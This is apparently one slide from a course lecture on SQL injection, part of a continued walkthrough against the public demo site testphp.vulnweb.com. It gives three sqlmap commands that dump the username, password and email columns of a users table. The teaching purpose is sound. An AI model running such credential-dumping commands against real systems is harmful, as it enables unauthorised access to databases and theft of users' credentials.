

# Exploiting SQLI Vulnerability(Continued)
Now we   can use the commands-
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C uname –dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass –dump
sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C email –dump
To read all the username password and email from that table in the database
2
3
5

Department of Information and Communication Technology
50/100